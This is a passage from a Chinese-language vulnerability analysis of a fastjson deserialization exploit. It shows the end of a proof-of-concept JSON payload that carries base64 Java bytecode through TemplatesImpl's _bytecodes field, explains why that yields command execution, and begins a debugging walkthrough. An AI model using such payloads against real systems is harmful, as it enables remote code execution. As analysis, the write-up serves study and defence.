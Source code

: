 ```java
FsL3hzbHRjL1RyYW5zbGV0RXhjZXB0aW9uAQAIaGFuZGxlcnMBAEJbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYW
wvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjsBAARtYWluAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgcALQEAE2
phdmEvbGFuZy9FeGNlcHRpb24KAAEADAEABGFyZ3MBABNbTGphdmEvbGFuZy9TdHJpbmc7AQABdAEAClNvdXJjZUZpbGUBAA
lUZXN0LmphdmEAIQABAAMAAAAAAAQAAQAFAAYAAgAHAAAABAABAAgACgAAAEAAAgABAAAADiq3AAu4AA0SE7YAFVexAAAAAg
AZAAAADgADAAAADwAEABAADQARABoAAAAMAAEAAAAOABsAHAAAAAEAHQAeAAEACgAAAEkAAAAEAAAAAbEAAAACABkAAAAGAA
EAAAAVABoAAAAqAAQAAAABABsAHAAAAAAAAQAfACAAAQAAAAEAIQAiAAIAAAABACMAJAADAAEAHQAlAAIABwAAAAQAAQAmAA
oAAAA/AAAAAwAAAAGxAAAAAgAZAAAABgABAAAAGQAaAAAAIAADAAAAAQAbABwAAAAAAAEAHwAgAAEAAAABACgAKQACAAkAKg
ArAAIABwAAAAQAAQAsAAoAAABBAAIAAgAAAAm7AAFZtwAuTLEAAAACABkAAAAKAAIAAAAcAAgAHQAaAAAAFgACAAAACQAvAD
AAAAAIAAEAMQAcAAEAAQAyAAAAAgAz"],'name':'a.b','tfactory':{ },"outputProperties":{
},"name":"a","version":"1.0","allowedProtocols":"all"}
```

通过`Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);`执行反序列化操作，执行命令。

在这个poc中，最核心的部分是_bytecodes，它是要执行的代码，@type是指定的解析类，fastjson会根据指定类去反序列化得到该类的实例，在默认情况下，fastjson只会反序列化公开的属性和域，而com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl中_bytecodes却是私有属性，_name也是私有域，所以在parseObject的时候需要设置Feature.SupportNonPublicField，这样_bytecodes字段才会被反序列化。_tfactory这个字段在TemplatesImpl既没有get方法也没有set方法，这没关系，我们设置_tfactory为{ },fastjson会调用其无参构造函数得_tfactory对象，这样就解决了某些版本中在defineTransletClasses()用到会引用_tfactory属性导致异常退出。

我们的debug操作直接进入`Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);`语句中，进入JSON.class的parseObject函数中，可以看到传入的参数值：

![fastjson](imgs/3.png)

这里debug的操作就不贴上了，感兴趣的可以自己去debug调试一下，贴上一张调用链的图：
